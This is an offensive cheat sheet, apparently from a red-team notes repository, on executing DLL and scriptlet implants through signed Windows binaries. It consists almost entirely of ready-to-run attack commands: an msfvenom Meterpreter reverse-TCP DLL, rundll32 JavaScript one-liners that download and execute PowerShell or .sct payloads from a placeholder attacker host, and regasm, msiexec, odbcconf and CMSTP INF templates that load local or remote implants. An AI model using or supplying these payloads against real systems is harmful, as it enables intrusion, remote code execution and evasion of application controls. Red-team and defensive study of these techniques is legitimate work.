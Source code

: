 # DLL Execution

Search Tag(s): #T1085 #T1191

Generate a DLL implant.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o implant.dll
```

## Rundll32

```
C:\> rundll32.exe implant.dll,StartW
```

Execute a JavaScript that runs a PowerShell script that is downloaded from a remote web site.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/implant.ps1')");
```

Execute a JavaScript that runs calc.exe and then kills the Rundll32.exe process that was started.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe", 0, true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Execute a scriptlet implant from a web server.

```
C:\> rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http[s]://<IP>[:PORT]/implant.sct")"
```

## Regasm

Loads the target .DLL file and executes the RegisterClass function.

```
C:\> regasm.exe AllTheThingsx64.dll
```

Loads the target .DLL file and executes the UnRegisterClass function.

```
regasm.exe /U AllTheThingsx64.dll
```

## Regsvcs

```
C:\> regsvcs.exe AllTheThingsx64.dll
```

## Msiexec

Execute the DLL implant  (calls `DLLRegisterServer`).

```
C:\> msiexec /y "C:\path\to\implant.dll"
```

Unregisters the target DLL.

```
C:\> msiexec /z "C:\path\to\implant.dll"
```

## odbcconf

```
C:\> odbcconf /a {REGSVR C:\path\to\implant.dll}
```

## CMSTP

Fileless scriptlet implant template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/implant.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

DLL dropper implant template.

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\path\to\implant.dll
\\<IP>\implant.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

Execute implant.

```
C:\> cmstp.exe /ni /s implant.inf
```

Execute fileless implant.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/implant.inf
```

---
## References

- [LOLBAS: Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

- [LOLBAS: Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)

- [LOLBAS: Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

- [LOLBAS: Odbcconf](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)

- [Red Team Notes: CMSTP](https://www.ired.team/offensive-security/code-execution/t1191-cmstp-code-execution)

https://lolbas-project.github.io/lolbas/Libraries/Advpack/

https://lolbas-project.github.io/lolbas/Libraries/Setupapi/

https://lolbas-project.github.io/lolbas/Libraries/Ieadvpack/

https://lolbas-project.github.io/lolbas/Binaries/Certoc